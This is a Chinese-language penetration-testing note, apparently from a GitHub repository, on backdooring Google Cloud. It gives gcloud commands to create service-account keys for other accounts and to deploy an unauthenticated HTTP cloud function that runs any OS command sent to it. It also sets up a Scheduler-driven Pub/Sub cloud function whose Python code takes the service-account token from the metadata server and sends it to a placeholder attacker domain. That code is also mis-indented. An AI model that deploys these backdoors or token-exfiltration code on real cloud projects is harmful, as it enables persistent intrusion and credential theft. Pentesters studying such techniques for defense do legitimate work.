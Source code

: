   #### 创建服务帐号密钥
	您可以通过多种方式向 GCP 进行身份验证，其中一种是通过服务帐户密钥。 服务帐户可以有多个与之关联的密钥，每个密钥都可以让您以该用户的身份访问 GCP
	用来自 Rhino Security Labs 的相同漏洞利用脚本来执行此操作。
	● https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py
	如果您使用 gcloud，您可以运行以下命令为其他用户创建服务帐户密钥：
	> gcloud iam service-accounts keys create OUTPUT-FILE--iam-account=IAM_ACCOUNT
	接下来将密钥导入 gcloud，您将能够以该用户身份与 GCP 交互。
	> gcloud auth activate-service-account --key-file=CREDENTIALS-FILE.JSON
	请注意，要运行此命令，您必须设置正确的权限，否则您将被拒绝。 如果您确实拥有正确的权限，您可以对项目中的每个服务帐户进行后门，从而让您轻松访问目标云环境
  #### 云功能
  ##### 未经认证的 HTTP 云函数
	云功能是很好的后门。 您所要做的就是创建一个未经身份验证的云函数，其触发器是一个 HTTP 请求。 接下来，您将云功能设置为执行用户发送给您的任何操作系统命令
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/911.png)

	您不想创建新功能，也可以更新另一个云功能来植入您的后门。
	要将此技术与 gcloud 一起使用，只需输入以下命令：
	● 创建一个名为 main.py 的 python 脚本
	> gcloud functions deploy NAME-OF-CLOUD-FUNCTION-HERE --entry-point ENTRY-POINT-HERE --runtime python37 --trigger-http --allow-unauthenticated
  ##### 定时任务
	熟悉 Linux cron ，那么 Google Cloud Scheduler 也是如此。 Linux 恶意软件通常使用 cron 进行持久性，并且可以在云中使用相同的技术
	cron 作业可以用作许多事情的触发器，使用它来发送 Pub/Sub 消息。 设置一个云函数，当它接收到 Pub/Sub 消息时将触发它。 云功能可以做任何你想做的事情，使用它来将服务帐户凭据发送到攻击者的机器。
	这种攻击只涉及三个步骤，如下所示：
	● 创建发布/订阅主题
	● 创建一个 cron 作业任务
	● 创建恶意云功能
	$ gcloud pubsub topics create test
	接下来创建一个 cron 作业，在本例中，我将创建一个每分钟执行一次的 cron 作业。
	此 cron 作业将向 Pub/Sub 主题发布消息，最终触发恶意云功能。
	$ gcloud scheduler jobs create pubsub myjob --schedule "* * * * *" --topic mytopic --message-body "Hello"
	最后创建恶意云函数。 这个函数应该用来做一些恶意行为，在这个例子中它会向攻击者发送一个身份验证令牌
	$ gcloud functions deploy <CLOUD-FUNCTION-NAME> --entry-point <PYTHON-FUNCTION-NAME> --runtime python37 --trigger-topic=<TOPIC-NAME>
	首先，我们点击元数据服务来获取附加的服务帐户身份验证令牌。
	然后我们通过 GET 请求将其发送给攻击者
```python
import requests
import json
def evil_pubsub(event, context):
    """Triggered from a message on a Cloud Pub/Sub topic.
    Args:
    event (dict): Event payload.
    context (google.cloud.functions.Context): Metadata for the event.
    """
    r = requests.get(url = "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token",headers={"Metadata-Flavor":"Google"})
        PARAMS = {"data":r.text}
        requests.get(url="http://<ATTCKER-DOMAIN-HERE>/",params = PARAMS)
```
    
	一旦 cron 运行，它将向 Pub/Sub 发送一条消息。 本地监听此主题，可在触发时获取附加的服务帐户凭据
